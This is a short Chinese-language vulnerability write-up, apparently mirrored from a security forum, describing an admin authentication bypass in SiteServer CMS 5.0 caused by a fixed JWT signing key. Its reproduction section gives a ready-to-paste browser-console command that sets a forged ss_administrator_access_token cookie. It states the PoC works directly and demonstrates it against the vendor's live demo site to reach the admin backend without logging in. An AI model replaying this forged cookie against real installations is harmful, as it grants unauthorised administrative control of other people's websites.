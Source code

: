 # SiteServer CMS 5.0 管理后台Cookie欺骗

> 原文：[https://www.zhihuifly.com/t/topic/3126](https://www.zhihuifly.com/t/topic/3126)

# SiteServer CMS 5.0 管理后台Cookie欺骗

## 一、漏洞简介

SiteServer CMS 5.0 后台访问控制采用JWT技术进行身份鉴别，HTTP请求时通过Cookie中的ss_administrator_access_token字段值作为身份鉴别，而加密ss_administrator_access_token字段值的key在安装时未进行随机初始化，导致所有相同版本的应用系统Cookie可以通用,通过修改Cookie可登陆任意相同版本后台。

## 二、漏洞影响

SiteServer CMS 5.0

## 三、复现过程

系统环境：IIS 7.5 + MSSQL 2008 R2 （操作系统：Windows Server 2008 R2）

先访问一个站点，以官方体验站点为例子：

http://cms.demo.siteserver.cn/siteserver/login.aspx

Chrome浏览器按F12切换到控制台，设置ss_administrator_access_token的Cookie值（以下PoC可以直接使用）：

```
document.cookie='ss_administrator_access_token=M3ENIa3NKJJ39JCRHnY4PgfJqMC7lFjggL0e9S06Bs9ubZE90add0xM2aesaL0add0Cxo8Xe5VZrSanerzFU8oZaMXCC9AoJfZvq5AtBXGxi0slash0tCRtk8UgV5UXu1u2pDL6htbwIqGBZx0slash0ZqVH4x0LjRE20slash0mz3FHc5QJFpTAKI0slash0AJ52LJ6XnWB7gsJuHFauL0add0q0add0sIMft8e3ef840gWzQaChpfGHfYwGS5wHFaC19T56X2J0Z5Hn500equals0' 
```

再次访问（后面没有login.aspx）：

http://cms.demo.siteserver.cn/siteserver/

登陆成功